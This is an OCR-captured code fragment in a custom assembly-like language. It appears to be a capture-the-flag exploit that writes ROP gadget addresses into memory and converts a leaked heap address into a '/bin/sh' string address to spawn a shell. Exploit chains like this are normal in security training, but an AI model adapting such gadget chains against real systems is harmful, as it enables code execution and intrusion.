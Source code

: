 ```python
lda 0xfce
sta 0x11e

# write gadget 7's addr
ldc 0xfc8
sbc 0x8ec
sta 0x120
lda 0xfca
sbc 0x8ee
sta 0x122
lda 0xfcc
sta 0x124
lda 0xfce
sta 0x126

# write gadget 8's addr
ldc 0xfc8
sbc 0x8f0
sta 0x138
lda 0xfca
sbc 0x8f2
sta 0x13a
lda 0xfcc
sta 0x13c
lda 0xfce
sta 0x13e

# copy the heap leak onto current addr 0x140, converted to str_bin_sh addr
ldc 0x8b8
adc 0x8f4
sta 0x140
lda 0x8ba
sta 0x142
lda 0x8bc
sta 0x144
lda 0x8be
sta 0x146

# write gadget 9's addr
ldc 0xfc8
adc 0x8f6
sta 0x150
lda 0xfca
adc 0x8f8
sta 0x152
lda 0xfcc
sta 0x154
lda 0xfce
sta 0x156

ill 0

# where the heap leak will be stored
@0x7f0

# useful constants
@0x800
.0xd041
.0xfff
.0x0042
.0x400

@0x808
```